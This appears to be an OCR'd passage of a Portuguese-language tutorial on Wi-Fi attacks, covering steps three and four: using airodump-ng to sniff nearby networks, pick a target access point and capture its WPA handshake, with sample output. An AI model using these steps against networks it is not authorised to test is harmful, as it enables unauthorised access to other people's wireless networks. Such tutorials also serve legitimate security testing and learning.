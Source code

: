


_________________________________________________________________________________________________________________________________________________________
# Terceiro passo
##### "Sniffar" redes em volta para identificar seu alvo
```
$ sudo airodump-ng <interface>
````
##### A saida sera parecida com essa:
```
 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ]
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN              NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP         bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP   PSK  teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy
 ```
 

* BSSID = Mac Address do AP (roteador)
* ESSID = nome que identifica o AP
* CH = canal em que o AP esta operando
* STATION = Mac Address de dispositivos conectados aos APs

 
 
 
_________________________________________________________________________________________________________________________________________________________
 # Quarto passo
 ##### Depois de identificar o alvo, comece a captura dos pacotes da rede alvo para então capturar o HANDSHAKE
 ```
 $ sudo airodump-ng --bssid <macaddr> -c <canal> -w <arquivo> <interface>
 ```
 > --bssid mac address do AP alvo
 >
 > -c seleciona o canal do AP para evitar perda de pacotes
 > 
 > -w para gravar captura em um arquivo .cap
 
 
